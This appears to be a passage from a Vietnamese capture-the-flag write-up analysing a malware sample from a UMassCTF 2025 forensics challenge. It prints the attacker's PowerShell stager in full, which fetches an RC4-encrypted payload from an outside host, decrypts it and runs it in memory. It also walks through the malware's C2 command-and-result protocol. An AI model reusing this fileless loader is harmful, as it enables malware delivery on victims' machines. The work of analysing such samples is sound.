    $S = New-Object byte[] 256
    for ($i = 0; $i -lt 256; $i++) {
        $S[$i] = $i
    }
    
    # Key scheduling algorithm (KSA)
    $j = 0
    for ($i = 0; $i -lt 256; $i++) {
        $j = ($j + $S[$i] + $Key[$i % $Key.Length]) % 256
        # Swap S[i] and S[j]
        $temp = $S[$i]
        $S[$i] = $S[$j]
        $S[$j] = $temp
    }
    
    # Pseudo-random generation algorithm (PRGA) and decryption
    $i = $j = 0
    $result = New-Object byte[] $EncryptedData.Length
    
    for ($k = 0; $k -lt $EncryptedData.Length; $k++) {
        $i = ($i + 1) % 256
        $j = ($j + $S[$i]) % 256
        
        # Swap S[i] and S[j]
        $temp = $S[$i]
        $S[$i] = $S[$j]
        $S[$j] = $temp
        
        # Generate keystream byte and XOR with encrypted byte
        $keyStreamByte = $S[($S[$i] + $S[$j]) % 256]
        $result[$k] = $EncryptedData[$k] -bxor $keyStreamByte
    }
    
    return $result
}


$Url = 'http://thegooseisloose.dev:8080/check_for_virus.bat'
# Create a web client to download the file
$webClient = New-Object System.Net.WebClient

# Download the binary as a byte array directly into memory
$encryptedBytes = $webClient.DownloadData($Url)


$key = '43cnbnm4hi9mv1sv'
# Convert string key to byte array
$keyBytes = [System.Text.Encoding]::ASCII.GetBytes($key)

# Add some debug information

# Decrypt the data
$decryptedBytes = Invoke-RC4Decrypt -EncryptedData $encryptedBytes -Key $keyBytes

# Load the assembly from the byte array
$assembly = [System.Reflection.Assembly]::Load($decryptedBytes)

# Get the entry point (Main method) of the assembly
$entryPoint = $assembly.EntryPoint


if ($entryPoint -ne $null) {
    # Create an instance of the main class if it's not static
    $instance = $null
    if (-not $entryPoint.IsStatic) {
        $instance = $assembly.CreateInstance($entryPoint.DeclaringType.FullName)
    }
    
    # Execute the entry point
    $entryPoint.Invoke($instance, $null)
} else {
    Write-Output "Failed"
}
```

Cái script này sẽ tải một file được mã hoá từ `http://thegooseisloose.dev:8080/check_for_virus.bat` về sau đó thực hiện giả mã sử dụng key RC4: `43cnbnm4hi9mv1sv` và sau đó load file đó trực tiếp vào trong bộ nhớ, xác định vị trí của hàm main và thực hiện chương trình

Để decrypt file này thì không có lắm tại chính cái script trên đã làm việc đó rồi, ta chỉ cần xoá phần tải từ URL, load vào memory với tìm hàm main thành đọc dữ liệu của file sau đó viết vào một file exe thôi

```powershell
function Invoke-RC4Decrypt {
    [CmdletBinding()]
    param (
        [Parameter(Mandatory = $true)]
        [byte[]]$EncryptedData,
        
        [Parameter(Mandatory = $true)]
        [byte[]]$Key
    )
    
    # Create RC4 state array (S-box)
    $S = New-Object byte[] 256
    for ($i = 0; $i -lt 256; $i++) {
        $S[$i] = $i
    }
    
    # Key scheduling algorithm (KSA)
    $j = 0
    for ($i = 0; $i -lt 256; $i++) {
        $j = ($j + $S[$i] + $Key[$i % $Key.Length]) % 256
        # Swap S[i] and S[j]
        $temp = $S[$i]
        $S[$i] = $S[$j]
        $S[$j] = $temp
    }
    
    # Pseudo-random generation algorithm (PRGA) and decryption
    $i = $j = 0
    $result = New-Object byte[] $EncryptedData.Length
    
    for ($k = 0; $k -lt $EncryptedData.Length; $k++) {
        $i = ($i + 1) % 256
        $j = ($j + $S[$i]) % 256
        
        # Swap S[i] and S[j]
        $temp = $S[$i]
        $S[$i] = $S[$j]
        $S[$j] = $temp
        
        # Generate keystream byte and XOR with encrypted byte
        $keyStreamByte = $S[($S[$i] + $S[$j]) % 256]
        $result[$k] = $EncryptedData[$k] -bxor $keyStreamByte
    }
    
    return $result
}

# Doc file
$encryptedBytes = [System.IO.File]::ReadAllBytes(".\check_for_virus.bat")

$key = '43cnbnm4hi9mv1sv'
# Convert string key to byte array
$keyBytes = [System.Text.Encoding]::ASCII.GetBytes($key)

# Decrypt the data
$decryptedBytes = Invoke-RC4Decrypt -EncryptedData $encryptedBytes -Key $keyBytes

# Luu file vao
[System.IO.File]::WriteAllBytes(".\decrypted.exe", $decryptedBytes)
```

## Phân tích malware

Có file exe ta đưa vào DiE thì biết nó được viết bằng rust XD??, bật IDA xem có gì, 1000 hàm xd xem writeup thôi

https://klefz.se/2025/04/21/real-forensics-umassctf-2025/

https://abu.h7tex.com/blog/umassctf/

Từ hai bài này thì có một cách mới thấy là kiểm tra phần strings của file exe, có lẽ bởi vì hacker khi chương trình sẽ có những đoạn output ra string như là `Error` các kiểu hoặc là các địa chỉ, chuỗi khác được hardcode vào trong chương trình, ở đây ta khi nhìn vào strings của file exe thì ta có thể suy luận được rằng file này làm các việc sau:



-  Gửi dữ liệu đến 1 C2 server `michaelsoft.com:5000/network-check` và `/telemetry` có thể nhìn thấy trong strings(Còn nội dung gửi là gì thì chỉ cần xem các dữ liệu HTTP của `michaelsoft.com:5000` trong wireshark là sẽ thấy). Malware thực hiện lệnh powershel sau đó gửi đến server qua `/telemetry` và nhận lệnh powershell tiếp theo từ `/network-check` 
- Tiếp theo ta biết dữ liệu được mã hoá khi trao đổi qua string `Error decrypting data` Khi nhấn vào sẽ nhảy đến `loc_140012661` của hàm `sub_14000E6F0` to đùng, đây là một thông báo lỗi tức là nó là kết quả của hàm decrypt vậy để tìm hàm decrypt ta phải dò ngược lại, dò đến `loc_14000F203` thì thấy rằng nó call 2 hàm



Hàm ở dưới là `sub_140028510` nhảy đến một hàm khác gọi `GetProcessHeap` không liên quan lắm đến decrypting nên ta đi vào hàm còn lại là `sub_140024840` ở đó thấy có một vài loc gọi đến `src\\main.rs` nên khá chắc chắn đây là hàm decrypting chính xác

Tơi đây để phân tích được C2 server đã gửi những gì đến máy người dùng có 2 cách đó là:

- Phân tích tĩnh: Phân tích 2 hàm `sub_140024840` `sub_14000E6F0` để biết quá trình mã hoá như nào từ đó giải mã các câu lệnh mà người dùng nhận được từ C2 server
- Phân tích động: Tạo một server làm `michaelsoft.com:5000` để nhận dữ liệu và gửi dữ liệu cho file exe, cái này dễ hơn và cả 2 wu trên đều sử dụng cách này

Để tỉm thấy các dữ liệu mà file exe nhận được từ C2 server thì ta chỉ cần follow tcp stream trong wireshark đến stream thứ 44 trở đi thì sẽ thấy các đoạn mã b64 được trao đổi giữa exe và server

```bash
# Ví dụ stream 44
GET /network-check HTTP/1.1
accept: */*
host: michaelsoft.com:5000


HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.2
Date: Sat, 19 Apr 2025 20:47:17 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 48
Connection: close

IIYo5VLfrxFqkslnhPzxiTYYoyKTUu49FrP8DTBehMEwvCg=
```


### Phân tích động

Trước hết thì ta phải tạo một server http bằng python sử dụng `python3 -m http.server 5000` sau đó chỉnh sửa file `host` trên cả WSL(Nếu sử dụng) và Windows để michaelsoft.com trỏ đến địa chỉ ip của mình, ví dụ IP của tôi là `172.17.255.174` thì trong file hosts sẽ phải chỉnh thành

Lưu ý nếu làm trên WSL thì phải lấy IP ethernet của WSL thì mới chạy được và tắt firewall trên windows

```
172.17.255.174 michaelsoft.com
```

Sau đó là tạo một file `network-check` để nếu file exe yêu cầu thì sẽ đưa ra



Setup xong server thành công giờ quay lại IDA file exe để đặt breakpoint và chạy

Vì ta biết được quy trình decrypt nằm ở hàm `sub_140024840` nên tốt nhất là sẽ đặt breakpoint sau khi decrypt xong nên là đặt ở đầu `loc_140024952` luôn



Ok rồi chạy thôi, chờ cho đến khi debugger dừng lại tại breakpoint thì ta thấy một vài thanh ghi được truyền dữ liệu vào



Bởi vì đây là ở cuối function decrypt nên chắc chắn rằng các dữ liệu đã giải mã thành công rồi(Bởi vì không báo lỗi, lỗi có string Error decrypting như đã thấy khi phân tích strings của file exe) và chỉ được truyền vào các thanh ghi trên thôi, xem nội dung của từng thành ghi thì thấy thanh `rax` có giá trị `ls` đây chính là câu lệnh được giải mã mà malware lấy từ trên `/network-check` về, trong server python của chúng ta cũng có thông báo

```
172.17.240.1 - - [25/May/2025 15:24:07] "GET /network-check HTTP/1.1" 200 -
```

Vậy bây giờ test từng lệnh một rồi chạy và xem kết quả thôi

Tại HTTP stream 57 thì có lấy một lệnh `T2Zze_tCWONsXVREqygKNtxGG_sYp9z6V0oyp28_-Wu5QNbOCZeZ9oMYecmJQOeZJkoQy7gOQB2PIZm1YCTGSpF_zvWyUwMv` decrypt thì ra `type C:\Users\infected\Desktop\flag.txt`. `type` là câu lệnh để hiển thị nội dung của file, mà muốn biết được nội dung của `flat.txt` là gì thì không check `/network-check` nữa mà sẽ gửi POST request vào `/telemetry` lên server

Nhưng may thay bởi vì malware chỉ sử dụng duy nhất một phương thức encrypt và decrypt khi gửi và nhận nên là ta có thể lấy cái POST request tại HTTP stream 58 `ynzIK-c2IdSiRo3FPGuRGIKW1J9NNbVcxTebH7Slkiyi8lkGeS4SX6nAqEUxwZVN5C93R-6RXcJsX8HWDmoU1-9nRa8q8ZPcxf2RFmqN2IVO` vào file `network-check` thì khi chạy sẽ decrypt ra flag (Vẫn ở thanh ghi rax)

Tác giả của bài này có nói rằng lúc đầu định cho phương thức encrypt và decrypt khi GET và POST là khác nhau💀. Như vậy thì sẽ mệt hơn và ta sẽ phải phân tích tĩnh để tìm được cách mà nó encrypt kết quả như thế nào trước khi gửi lên `/telemetry` thay vì chỉ cần biết được các `decrypt` từ `/network-check` là tìm được cả 2. Thực ra nếu làm thế thì hay hơn bởi tôi sẽ xem được writeup của người khác 

### Phân tích tĩnh(Đang tìm hiểu)

```python
rc4(key=enc[0:16] ^ enc[16:32], data=enc[32:])
```

Đây là ý tưởng encrypt của tác giả, phải làm thế nào đấy để tìm ra được cái này từ phân tích malware

# Flag

`UMASS{f0r3ns1cs_1s_4lw4ys_b3tt3r_w1th_s0m3_r3v}`